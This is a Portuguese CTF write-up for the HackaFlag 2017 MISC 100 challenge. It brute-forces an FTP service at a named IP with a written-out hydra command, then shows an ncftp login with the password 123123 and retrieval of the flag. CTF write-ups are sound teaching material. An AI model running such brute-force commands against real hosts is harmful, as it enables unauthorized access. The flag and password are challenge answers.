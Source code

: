 ```yaml
---
title: HackaFlag 2017 - Goiania MISC 100
date: 2017-03-09 09:36:00 Z
---
```


**Categoria:** Misc
**Pontos:** 100

**Descrição:**

>FTP
O administrador é o usuario, preocupado com a segurança, 
sabe os riscos de deixar os serviços como por exemplo 
ftp e ssh desatualizados, por vezes, senhas fracas tambem 
são grandes portas de entrada. IP: 45.55.184.240

Autor: @chucky


# Write-up:


Após um SCAN, detectamos o FTP na porta: 2021


Vamos usar Brute-force e encontra essa senha, para isso
você pode usar o Hydra ou o Nozzlr (https://github.com/intrd/nozzlr)

```bash
# hydra -l administrador -P senhas.txt 45.55.184.240 ftp -s 2021
```

Descobrindo a senha, logue no FTP:

```bash
# ncftp -u usuario 45.55.184.240 -P 2021

Password requested by 45.55.184.240 for user "usuario".

    Password required for usuario

Password: 123123

User usuario logged in
ncftp /home/usuario > ls
.bash_history   .bash_logout    .bashrc         flag.txt        .profile        .viminfo
ncftp /home/usuario > get flag.txt 
flag.txt:                                        30,00/ 29,00 B  172,05 B/s   
```

```bash
# cat flag.txt

HACKAFLAG{Eu_MaNJo_DoS_BrUt}
```
